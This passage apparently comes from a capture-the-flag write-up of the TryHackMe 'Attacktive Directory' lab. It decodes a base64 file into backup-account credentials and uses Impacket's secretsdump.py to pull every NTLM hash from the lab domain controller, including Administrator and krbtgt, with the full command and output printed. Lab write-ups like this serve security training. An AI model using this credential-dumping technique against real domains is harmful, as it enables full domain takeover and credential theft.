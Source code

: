 ### What is the content of the file?

`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

### Decoding the contents of the file, what is the full contents?

`backup@spookysec.local:backup2517860`

![backup_credentials.txt](https://amirr0r.github.io/assets/img/thm/windows/attackive-directory/backup_credentials.png)

___

## Elevating Privileges within the Domain 

> Now that we have new user account credentials, we may have more privileges on the system than before.

Knowing this, we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

```bash
$ python3 /usr/local/bin/secretsdump.py -just-dc-ntlm spookysec.local/backup:backup2517860@$TARGET
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:0942ad72c183935a736ea0a211fabdec:::
```

### What method allowed us to dump NTDS.DIT?
